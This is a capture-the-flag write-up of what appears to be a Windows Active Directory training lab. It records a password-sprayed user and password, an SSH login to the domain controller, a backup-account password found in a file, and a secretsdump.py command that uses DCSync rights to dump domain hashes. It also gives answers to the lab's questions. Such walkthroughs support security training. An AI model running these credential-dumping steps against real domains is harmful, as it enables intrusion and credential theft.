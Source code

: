 What user was successfully password sprayed?
```{toggle}
JeffersD
```
What was the password for the user?
```{toggle}
Throwback2020
```

# SYNCHRONIZE

Don't have Bloodhound loot because Sharphound is still broken, ssh-ed in to the DC.

![dc-ssh-jeffersd](dc-ssh-jeffersd.png)

`proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.200.102.117 THROWBACK/backup@10.200.102.117` With the password: `TBH_Backup2348!`

We get alot of hashes [finds them here](secretdump.md)

```powershell

PS C:\Users\jeffersd> cd Documents
PS C:\Users\jeffersd\Documents> ls


    Directory: C:\Users\jeffersd\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/19/2020  10:13 PM            286 backup_notice.txt


PS C:\Users\jeffersd\Documents> type .\backup_notice.txt
As we backup the servers all staff are to use the backup account for replicating the servers 
Don't use your domain admin accounts on the backup servers.

The credentials for the backup are:
TBH_Backup2348!

Best Regards,
Hans Mercer
Throwback Hacks Security System Administrator
```

## Answers
What user has dcsync rights?
```{toggle}
backup
```
What user can we dump credentials for and is an administrator?
```{toggle}
Hans Mercer
```
